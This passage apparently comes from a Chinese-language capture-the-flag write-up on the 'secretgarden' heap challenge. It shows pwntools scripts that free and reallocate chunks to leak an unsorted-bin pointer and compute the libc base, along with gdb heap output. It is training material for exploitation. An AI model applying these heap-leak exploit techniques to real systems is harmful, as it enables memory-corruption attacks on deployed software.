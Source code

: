 ```python

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

add(500,"1","1")
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,"","4")
debug(0x107b,'heap chunks\nheap bins')
show()
io.interactive()
```

发现unsorted bin的地址以及成功的带到堆块中了：

```bash
Chunk(addr=0x5637f8bf7050, size=0x200, flags=PREV_INUSE)
    [0x00005637f8bf7050     0a 0b ef b5 5a 7f 00 00 78 0b ef b5 5a 7f 00 00    ....Z...x...Z...]
```

经过调试算出和libc基址的偏移为0x3c3b0a，并和gdb直接的得到的结果进行对比，成功泄露libc基址：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

```